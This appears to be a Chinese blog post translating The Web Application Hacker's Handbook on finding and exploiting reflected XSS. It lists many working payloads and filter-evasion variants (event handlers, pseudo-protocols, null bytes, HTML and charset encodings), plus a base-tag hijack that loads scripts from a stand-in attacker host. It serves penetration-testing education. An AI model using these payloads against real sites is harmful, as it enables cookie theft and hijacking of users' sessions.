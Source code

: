 ```yaml
---
layout:     post
title:      Chapter 12 Attacking Users&#58 Cross-Site Scripting(3) - Finding and Exploiting XSS Vulnerabilities(1_1)
subtitle:   查找和利用XSS漏洞(1_1)
date:       2020-03-17
author:     D
header-img: 
catalog: true
mermaid: true
tags: [web hacking]
---
```


参考:**The Web Application Hackers Handbook** Chapter 11

# 查找和利用XSS漏洞(Finding and Exploiting XSS Vulnerabilities)

识别XSS漏洞的基本方法是使用标准的概念验证攻击字符串，例如：
```
"><script>alert(document.cookie)</script>
```
该字符串作为每个参数提交给应用程序的每个页面，并监视响应以查找同一字符串的外观。 如果发现攻击字符串在响应中未更改的情况，则几乎可以肯定该应用程序容易受到XSS的攻击。

如果您只是想在应用程序中尽快识别XSS的某个实例，以对其他应用程序用户发起攻击，则这种基本方法可能是最有效的，因为它可以轻松实现自动化并产生最少的误报。 但是，如果您的目标是对应用程序执行全面的测试以找到尽可能多的单个漏洞，则需要使用更复杂的技术来补充基本方法。 不能通过基本的检测方法识别的应用程序中存在XSS漏洞的几种不同方式：
- 许多应用程序都实施了基于黑名单的基本过滤器，以防止XSS攻击。 这些过滤器通常在请求参数中查找诸如`<script>`之类的表达式，并采取一些防御措施，例如删除或编码该表达式或阻止该请求。 这些过滤器通常会阻塞基本检测方法中常用的攻击字符串。 但是，仅由于过滤了一个常见的攻击字符串，并不意味着不存在可利用的漏洞。 正如您将看到的，在某些情况下，无需使用`<script>`标记甚至不使用通常过滤的字符（例如`"` `<` `>`和`/`），都可以创建有效的XSS利用。
- 在许多应用程序中实施的抗XSS过滤器都是有缺陷的，可以通过各种方法来规避。 例如，假设应用程序在处理用户输入之前会剥离所有`<script>`标记。 这意味着基本方法中使用的攻击字符串不会在应用程序的任何响应中返回。 但是，以下一个或多个字符串可能会绕过过滤器并导致XSS成功利用：
```
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3e%3cscript%3ealert(document.cookie)%3c/script%3e
"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00"><script>alert(document.cookie)</script>
```
请注意，在某些情况下，输入字符串可以在返回服务器响应之前进行清理，解码或其他修改，但对于XSS攻击来说仍然足够。 在这种情况下，基于提交特定字符串并检查其是否出现在服务器响应中的检测方法本身不会成功地发现漏洞。

利用基于DOM的XSS漏洞，攻击有效载荷不一定会在服务器的响应中返回，而是会保留在浏览器DOM中，并由客户端JavaScript从那里进行访问。 同样，在这种情况下，找到基于特定字符串并检查其在服务器响应中的出现的方法不会成功。

# 查找和利用反射型XSS漏洞(Finding and Exploiting Reflected XSS Vulnerabilities)

检测可靠的XSS漏洞的最可靠方法涉及系统地研究在应用程序映射过程中确定的所有用户输入入口点（请参阅第4章），并遵循以下步骤：
- 在每个入口点提交一个良性字母字符串。
- 确定该字符串在应用程序的响应中反映的所有位置。
- 对于每个反射，请确定反射数据出现的句法上下文。
- 提交针对反射的句法上下文量身定制的修改后的数据，尝试将任意脚本引入响应中。
- 如果反射的数据被阻止或清除，阻止了脚本的执行，请尝试理解并规避应用程序的防御性筛选器。

# 1 识别用户输入的反映(Identifying Reflections of User Input)

测试过程的第一步是向每个入口点提交一个良性字符串，并标识响应中该字符串所反映的每个位置。

**HACK STEPS**
- 1. 选择一个唯一的任意字符串，该字符串不会出现在应用程序中的任何位置，并且仅包含字母字符，因此不太可能受到任何XSS特定的过滤器的影响。 例如：
```
myxsstestdmqlwp
```
将此字符串作为每个参数提交到每个页面，一次仅定位一个参数。
- 2. 监视应用程序的响应，以查看是否出现相同的字符串。 记录每个参数的值，这些参数的值将被复制到应用程序的响应中。 这些不一定很容易受到攻击，但是确定的每个实例都是进行进一步调查的候选对象，如下一节所述。
- 3. 请注意，`GET`和`POST`请求都需要进行测试。 您应该在URL查询字符串和消息正文中都包含每个参数。 尽管存在只能通过POST请求触发的XSS漏洞的较小范围的传递机制，但是仍然可以利用，如前所述。
- 4. 请注意，GET和POST请求都需要进行测试。 您应该在URL查询字符串和消息正文中都包含每个参数。 尽管存在只能通过POST请求触发的XSS漏洞的较小范围的传递机制，但是仍然可以利用，如前所述。
- 5. 除了标准请求参数之外，您还应该测试应用程序在其中处理HTTP请求标头内容的每个实例。 错误消息中会出现一个常见的XSS漏洞，其中将Referer和User-Agent标头等项目复制到消息的内容中。 这些标头是传递反射的XSS攻击的有效手段，因为攻击者可以使用Flash对象诱使受害者发出包含任意HTTP标头的请求。

# 2 测试反射以引入脚本(Testing Reflections to Introduce Script)

您必须手动调查已确定的每个反射输入实例，以验证该输入是否确实可利用。 在响应中反映数据的每个位置，您需要确定该数据的句法上下文。 您必须找到一种修改输入的方法，以便在将输入复制到应用程序响应中的同一位置后，可以执行任意脚本。 让我们看一些例子。

## 2.1 示例1：标签属性值(Example 1: A Tag Attribute Value)
假设返回的页面包含以下内容：
```
<input type="text" name="address1" value="myxsstestdmqlwp">
```
进行XSS攻击的一种明显方法是终止包含属性值的双引号，关闭<input>标记，然后采用一些引入JavaScript的方法，例如<script>标记。 例如：
```
"><script>alert(1)</script>
```
在这种情况下，可以绕过某些输入过滤器的另一种方法是保留在<input>标记本身内，但注入一个包含JavaScript的事件处理程序。 例如：
```
" onfocus="alert(1)
```
## 2.2 示例2：JavaScript字符串(Example 2: A JavaScript String)
假设返回的页面包含以下内容：
```
<script>var a = 'myxsstestdmqlwp'; var b = 123; ... </script>
```
在这里，您控制的输入将直接插入到现有脚本中带引号的字符串中。 要利用漏洞，您可以在字符串周围用单引号引起来，用分号终止该语句，然后直接进入所需的JavaScript：
```
'; alert(1); var foo='
```
请注意，因为您已经终止了带引号的字符串，为防止JavaScript解释器内发生错误，您必须确保脚本在注入代码之后以有效的语法继续正常运行。 在此示例中，声明了变量foo，并打开了第二个带引号的字符串。 它将由紧随您的字符串之后的代码终止。 通常有效的另一种方法是用`//`结束输入，以注释掉该行的其余部分。

## 2.3 示例3：包含URL的属性(Example 3: An Attribute Containing a URL)
假设返回的页面包含以下内容：
```
<a href="myxsstestdmqlwp">Click here ...</a>
```
在这里，您控制的字符串将插入到<a>标记的href属性中。 在这种情况下，以及在许多其他属性可能包含URL的情况下，您可以使用javascript：协议直接在URL属性内引入脚本：
```
javascript:alert(1);
```
因为您的输入反映在tag属性中，所以您也可以注入事件处理程序，如前所述。

对于适用于所有当前浏览器的攻击，可以将无效的图像名称与`onclick`事件处理程序一起使用：
```
#"onclick="javascript:alert(1)
```
**TIP**<br>
与其他攻击一样，请确保对请求中有意义的任何特殊字符进行URL编码，包括`＆` `=` `+` `;`和`空格`。

**HACK STEPS**<br>
对前面步骤中标识的每个反射输入执行以下操作：<br>

- 1. 查看HTML源代码以标识反映您的唯一字符串的位置。
- 2. 如果字符串出现不止一次，则每次出现都需要被视为一个单独的潜在漏洞并进行单独调查。
- 3. 根据用户可控制的字符串在HTML中的位置，确定如何进行修改以引起任意脚本的执行。通常，许多不同的方法都可能成为攻击的手段，如本章稍后所述。
- 4. 通过将其提交给应用程序来测试您的漏洞利用。 如果您制作的字符串仍未修改地返回，则该应用程序容易受到攻击。 通过使用概念证明脚本显示警报对话框来仔细检查语法是否正确，并在呈现响应时确认该对话框确实出现在浏览器中。

# 3 探测防御性过滤器(Probing Defensive Filters)

很多时候，您会发现服务器以某种方式修改了您最初尝试的利用程序，因此它们无法成功执行您注入的脚本。 如果发生这种情况，请不要放弃！ 您的下一个任务是确定正在发生哪些影响您输入的服务器端处理。 有三种广泛的可能性：
- 该应用程序（或保护该应用程序的Web应用程序防火墙）已识别出攻击特征并阻止了您的输入。
- 该应用程序已接受您的输入，但已对攻击字符串进行了某种清理或编码。
- 该应用程序已将您的攻击字符串截断为固定的最大长度。

我们将依次研究每种情况，并讨论可以避免应用程序处理过程中出现的障碍的各种方法。

# 4 击败基于签名的过滤器(Beating Signature-Based Filters)
在第一种类型的过滤器中，应用程序对攻击字符串的响应通常与对无害字符串的响应完全不同。 例如，它可能会显示一条错误消息，甚至可能表明已检测到可能的XSS攻击，如图12-8所示。

![figure12-8](/img/web_hacking/twahh/figure12-8.jpg)

如果发生这种情况，下一步就是确定输入中哪些字符或表达式正在触发过滤器。 一种有效的方法是依次删除字符串的不同部分，然后查看输入是否仍被阻止。 通常，此过程很快就会确定诸如`<script>`之类的特定表达式导致请求被阻止。 然后，您需要测试过滤器以确定是否存在任何旁路。

将脚本代码引入HTML页面的方法有很多，通常可以绕过基于签名的过滤器。 您可以找到一种引入脚本的替代方法，也可以使用浏览器可以容忍的语法稍有错误的语法。 本节研究了执行脚本的多种不同方法。 然后，它描述了可用于绕过常见滤波器的多种技术。

## 4.1 脚本代码介绍的方法(Ways of Introducing Script Code)
您可以通过四种主要方式将脚本代码引入HTML页面。 我们将依次研究它们，并给出一些不常见的示例，这些示例可能会成功绕过基于签名的输入过滤器。

**NOTE**<br>
浏览器对不同HTML和脚本语法的支持差异很大。 各个浏览器的行为通常随每个新版本而变化。 因此，任何有关单个浏览器行为的"权威性"指南都可能很快过时。 但是，从安全性的角度来看，应用程序必须以健壮的方式运行所有流行浏览器的当前和最新版本。 如果只能使用仅一小部分用户使用的特定浏览器来进行XSS攻击，则这仍然构成应解决的漏洞。 在撰写本文时，本章中给出的所有示例均在至少一个主要的浏览器上运行。

作为参考，本章撰写于2011年3月，这些攻击描述了至少以下一项的所有工作：
-  Internet Explorer version 8.0.7600.16385
-  Firefox version 3.6.15

## 4.2 脚本标签(Script Tags)
除了直接使用<script>标记之外，您还可以通过多种方式使用一些复杂的语法来包装标记的用法，从而破坏某些过滤器：
```
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
Click here</a>
```
前面的示例中的Base64编码的字符串是：
```
<script>alert(1)</script>
```
## 4.3 事件处理程序(Event Handlers)
许多事件处理程序可以与各种标记一起使用，以使脚本执行。 以下是一些鲜为人知的示例，它们无需任何用户交互即可执行脚本：
```
<xml onreadystatechange=alert(1)>
<style onreadystatechange=alert(1)>
<iframe onreadystatechange=alert(1)>
<object onerror=alert(1)>
<object type=image src=valid.gif onreadystatechange=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)>
<input type=image src=valid.gif onreadystatechange=alert(1)>
<isindex type=image src=valid.gif onreadystatechange=alert(1)>
<script onreadystatechange=alert(1)>
<bgsound onpropertychange=alert(1)>
<body onbeforeactivate=alert(1)>
<body onactivate=alert(1)>
<body onfocusin=alert(1)>
```
HTML5使用事件处理程序提供了大量新的向量。 其中包括使用autofocus属性自动触发以前需要用户交互的事件：
```
<input autofocus onfocus=alert(1)>
<input onblur=alert(1) autofocus><input autofocus>
<body onscroll=alert(1)><br><br>...<br><input autofocus>
```
它允许在结束标记中使用事件处理程序：
```
</a onmousemove=alert(1)>
```
最后，HTML5引入了带有事件处理程序的新标记：
```
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
```
## 4.4 脚本伪协议(Script Pseudo-Protocols)
脚本伪协议可以在各个位置使用，以在需要URL的属性内执行内联脚本。 这里有些例子：
```
<object data=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>
```
尽管最常用的方法是使用javascript伪协议作为该技术的示例，但也可以在Internet Explorer浏览器上使用`vbs`协议，如本章稍后所述。

与事件处理程序一样，HTML5提供了一些在XSS攻击中使用脚本伪协议的新方法：
```
<form id=test /><button form=test formaction=javascript:alert(1)>
<event-source src=javascript:alert(1)>
```
当定位输入过滤器时，新的事件源标签特别有用。 与任何HTML5之前的标签不同，它的名称包含连字符，因此使用此标签可能会绕过基于旧正则表达式的过滤器，这些过滤器假定标签名称只能包含字母。

## 4.5 动态评估样式(Dynamically Evaluated Styles)
某些浏览器支持在动态评估的CSS样式中使用JavaScript。 下面的示例在兼容模式下运行时，适用于IE7和更早版本，以及更高版本：
```
<x style=x:expression(alert(1))>
```
IE的更高版本删除了对先前语法的支持，因为它实际上仅在XSS攻击中使用。 但是，在更高版本的IE上，可以使用以下命令达到相同的效果：
```
<x style=behavior:url(#default#time2) onbegin=alert(1)>
```
Firefox浏览器过去曾通过`moz-binding`属性允许基于CSS的攻击，但是对此功能的限制意味着它现在在大多数XSS场景中不再有用。

# 5 绕过过滤器：HTML(Bypassing Filters: HTML)
前面的部分描述了可从HTML页面内执行脚本代码的多种方式。 在许多情况下，您可能会发现，只需切换到另一种鲜为人知的脚本执行方法，就可以击败基于签名的过滤器。 如果失败了，则需要研究混淆攻击的方法。 通常，您可以通过引入意想不到的变化来做到这一点用过滤器接受的语法以及返回输入时浏览器允许的格式。 本节研究了混淆HTML语法以击败常见过滤器的方法。 下一节将相同的原理应用于JavaScript和VBScript语法。

用于阻止XSS攻击的基于签名的过滤器通常使用正则表达式或其他技术来标识关键的HTML组件，例如标记括号，标记名称，属性名称和属性值。 例如，过滤器可能试图阻止包含使用特定标签或已知允许引入脚本的属性名称的HTML的输入，或者可能尝试阻止以脚本伪协议开头的属性值。 通过以一种或多种浏览器允许的方式在HTML的关键点处放置不寻常的字符，可以绕开许多这些过滤器。

要查看此技术的实际效果，请考虑以下简单利用：
```
<img onerror=alert(1) src=a>
```
您可以通过多种方式修改此语法，但仍然可以在至少一个浏览器上执行代码。 我们将依次检查每个。 实际上，您可能需要将这些技术中的几种结合在一个漏洞中，以绕过更复杂的输入过滤器。
## 5.1 标签名称(The Tag Name)
从开始标签名称开始，可以通过更改所使用字符的大小写来绕过最简单的过滤器：
```
<iMg onerror=alert(1) src=a>
```
更进一步，您可以在任何位置插入NULL字节：
```
<[%00]img onerror=alert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
（在这些示例中，[`％XX`]表示具有十六进制ASCII码`XX`的文字字符。向应用程序提交攻击时，通常会使用字符的URL编码形式。在查看应用程序的响应时，您需要 查找正好反映的文字解码字符。）

**TIP**<br>
NULL字节技巧可在HTML页面中任何地方的Internet Explorer上使用。 在XSS攻击中自由使用NULL字节通常可以提供一种快速的方法，以绕过不了解IE行为的基于签名的过滤器。

从历史上看，使用NULL字节可有效防止配置为阻止包含已知攻击字符串的请求的Web应用程序防火墙（WAF）。 因为出于性能原因，WAF通常是用本机代码编写的，所以NULL字节终止了出现它的字符串。 这样可以防止WAF看到NULL之后出现的恶意有效负载（有关更多详细信息，请参见第16章）。

在标签名称中，如果您稍稍修改示例，则可以使用任意标签名称引入事件处理程序，从而绕过仅阻止特定命名标签的过滤器：
```
<x onclick=alert(1) src=a>Click here</x>
```
在某些情况下，您可以引入具有各种名称的新标签，但找不到使用这些标签直接执行代码的任何方法。 在这种情况下，您可能可以使用称为"基本标签劫持"的技术来发动攻击。 `<base>`标记用于指定一个URL，浏览器应使用该URL来解析随后出现在页面中的任何相对URL。 如果可以引入新的`<base>`标记，并且页面在使用相对URL的反射点之后执行任何`<script>`包含的内容，则可以为您控制的服务器指定基本URL。 当浏览器加载HTML页面其余部分中指定的脚本时，它们是从您指定的服务器加载的，但仍在调用它们的页面的上下文中执行。 例如：
```
<base href="http://mdattacker.net/badscripts/">
...
<script src="goodscript.js"></script>
```
根据规范，`<base>`标签应出现在HTML页面的`<head>`部分中。 但是，某些浏览器（包括Firefox）会接受出现在页面任何位置的`<base>`标签，从而大大扩大了这种攻击的范围。

## 5.2 标签名称后的空格(Space Following the Tag Name)
几个字符可以代替标签名称和第一个属性名称之间的空格：
```
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/"onerror=alert(1) src=a>
<img/'onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
```
请注意，即使在攻击不需要任何标签属性的地方，您也应始终尝试在标签名称之后添加一些多余的内容，因为这会绕过一些简单的过滤器：
```
<script/anyjunk>alert(1)</script>
```
## 5.3 属性名称(Attribute Names)
在属性名称内，您可以使用前面所述的相同NULL字节技巧。 这绕过了许多简单的过滤器，这些过滤器试图通过阻塞以`on`开头的属性名称来阻塞事件处理程序。
```
<img o[%00]nerror=alert(1) src=a>
```
## 5.4 属性分隔符(Attribute Delimiters)
在原始示例中，没有对属性值进行定界，因此在可以引入另一个属性之前，在该属性值后需要一些空格以指示其已结束。 属性可以选择用双引号或单引号定界，或者在IE上用反引号定界：
```
<img onerror="alert(1)"src=a>
<img onerror='alert(1)'src=a>
<img onerror=`alert(1)`src=a>
```
在前面的示例中切换属性提供了另一种绕过某些过滤器的方法，这些过滤器检查以on开头的属性名称。 如果过滤器不知道反引号充当属性定界符，则将以下示例视为包含单个属性，该名称不是事件处理程序的名称：
```
<img src=`a`onerror=alert(1)>
```
通过将引号分隔的属性与标记名称后的意外字符结合在一起，可以设计出不使用任何空格的攻击，从而绕过一些简单的过滤器：
```
<img/onerror="alert(1)"src=a>
```
## 5.5 属性值(Attribute Values)
在属性值本身内，您可以使用NULL字节技巧，还可以对值内的字符进行HTML编码：
```
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x6c;ert(1) src=a>
```
因为浏览器先对属性值进行HTML解码，然后再对其进行进一步处理，所以您可以使用HTML编码来混淆脚本代码的使用，从而避免使用许多过滤器。 例如，以下攻击绕过了许多试图阻止使用JavaScript伪协议处理程序的过滤器：
```
<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >
```
使用HTML编码时，值得注意的是，浏览器以某种方式容忍与规范的各种差异，即使是意识到HTML编码问题的过滤器也可能会忽略这些方式。 您可以使用十进制和十六进制格式，添加多余的前导零，并省略结尾的分号。 以下示例均可以在至少一个浏览器上运行：
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
<img onerror=a&#0108ert(1) src=a>
```
## 5.6 标签支架(Tag Brackets)
在某些情况下，通过利用古怪的应用程序或浏览器行为，可以使用无效的标签括弧，并仍然使浏览器按照攻击所需的方式处理标签。

某些应用程序在应用了输入过滤器之后，会对输入进行多余的URL解码，因此以下输入出现在请求中：
```
%253cimg%20onerror=alert(1)%20src=a%253e
```
由应用程序服务器进行URL编码，并通过以下方式传递给应用程序：
```
%3cimg onerror=alert(1) src=a%3e
```
它不包含任何标签括号，因此不受输入过滤器的限制。 但是，执行第二个URL解码的应用程序，因此输入变为：
```
<img onerror=alert(1) src=a>
```
它会回显给用户，从而导致攻击执行。

如第2章所述，当应用程序框架根据字形或语音的相似性将不寻常的Unicode字符"转换"为最接近的ASCII等效字符时，可能会发生类似的情况。 例如，以下输入使用Unicode双角引号（％u00AB和％u00BB）代替标签括号：
```
«img onerror=alert(1) src=a»
```
应用程序的输入过滤器可能允许此输入，因为它不包含任何有问题的HTML。 但是，如果应用程序框架在将输入插入响应中的点将引号转换为标记字符，则攻击成功。 已经发现许多应用程序容易受到这种攻击，开发人员可以忽略这些攻击。

一些输入过滤器通过简单地匹配左尖括号和右尖括号，提取内容并将其与标记名称的黑名单进行比较来识别HTML标记。 在这种情况下，您可以使用浏览器允许的超级括号来绕过过滤器：
```
<<script>alert(1);//<</script>
```
在某些情况下，可以利用浏览器的HTML解析器中的意外行为来提供绕过应用程序输入过滤器的攻击。 例如，以下使用ECMAScript for XML（E4X）语法的HTML并不包含有效的打开脚本标签，但仍在当前版本的Firefox上执行随附的脚本：
```
<script<{alert(1)}/></script>
```
**TIP**<br>
在所描述的几个过滤器绕过中，攻击导致HTML格式不正确，但客户端浏览器可以忍受。 由于许多合法网站都包含不严格符合标准的HTML，因此浏览器会接受各种形式的HTML。 它们有效地修复了呈现页面之前幕后的错误。 通常，当您尝试在异常情况下微调攻击时，查看浏览器根据服务器的实际响应构建的虚拟HTML可能会有所帮助。 在Firefox中，您可以使用WebDeveloper工具，该工具包含恰好执行此任务的"查看生成的源"功能。

## 5.7 字符集(Character Sets)
在某些情况下，通过使应用程序接受攻击载荷的非标准编码，您可以采用一种有效的方法来绕过许多类型的过滤器。 以下示例显示了备用字符集中字符串`<script>alert(document.cookie)</script>`的一些表示形式：<br>

**UTF-7**
```
+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
```
**US-ASCII**
```
BC 73 63 72 69 70 74 BE 61 6C 65 72 74 28 64 6F ; ¼script¾alert(do
63 75 6D 65 6E 74 2E 63 6F 6F 6B 69 65 29 BC 2F ; cument.cookie)¼/
73 63 72 69 70 74 BE                            ; script¾
```
**UTF-16**
```
FF FE 3C 00 73 00 63 00 72 00 69 00 70 00 74 00 ; ÿþ<.s.c.r.i.p.t.
3E 00 61 00 6C 00 65 00 72 00 74 00 28 00 64 00 ; >.a.l.e.r.t.(.d.
6F 00 63 00 75 00 6D 00 65 00 6E 00 74 00 2E 00 ; o.c.u.m.e.n.t...
63 00 6F 00 6F 00 6B 00 69 00 65 00 29 00 3C 00 ; c.o.o.k.i.e.).<.
2F 00 73 00 63 00 72 00 69 00 70 00 74 00 3E 00 ; /.s.c.r.i.p.t.>.
```
这些编码的字符串将绕过许多常见的反XSS过滤器。 进行成功攻击的挑战是使浏览器使用所需的字符集来解释响应。 如果您控制HTTP Content-Type标头或其相应的HTML元标记，则可以使用非标准字符集来绕过应用程序的过滤器，并使浏览器以所需的方式解释有效负载。 在某些应用程序中，字符集参数实际上是在某些请求中提交的，使您可以直接设置应用程序响应中使用的字符集。

如果默认情况下应用程序使用多字节字符集（例如Shift-JIS），则可以通过提交在使用的字符集中具有特殊意义的字符来绕过某些输入过滤器。 例如，假设在应用程序的响应中返回了两条用户输入：
```
<img src="image.gif" alt="[input1]" /> ... [input2]
```
对于input1，应用程序阻止包含引号的输入，以防止攻击者终止带引号的属性。 对于input2，应用程序阻止包含尖括号的输入，以防止攻击者使用任何HTML标记。 这似乎很可靠，但是攻击者可能可以使用以下两个输入来提供利用：
```
input1: [%f0]
input2: "onload=alert(1);
```
在Shift-JIS字符集中，各种原始字节值（包括0xf0）用于表示2字节字符，该字符由该字节和下一个字节组成。 因此，当浏览器处理input1时，0xf0字节后的引号被解释为2字节字符的一部分，因此不对属性值定界。 HTML解析器将一直持续到到达input2中提供的引号为止，该引号终止该属性，从而使攻击者提供的事件处理程序可以解释为附加的标记属性：
```
<img src="image.gif" alt="? /> ... "onload=alert(1);
```
当在广泛使用的多字节字符集UTF-8中识别出此类漏洞时，浏览器供应商做出了回应，提出了阻止攻击成功的解决方案。 但是，当前针对某些其他浏览器较少使用的多字节字符集（包括Shift-JIS，EUC-JP和BIG5），同样的攻击仍在某些浏览器上起作用。

[Chapter 12 Attacking Users: Cross-Site Scripting(2) - XSS Attacks in Action](https://dm116.github.io/2020/03/17/attacking-users-cross-site-scripting_2)<br>
[Chapter 12 Attacking Users: Cross-Site Scripting(3) - Finding and Exploiting XSS Vulnerabilities(1_1)](https://dm116.github.io/2020/03/17/attacking-users-cross-site-scripting_3_1_2/)<br>
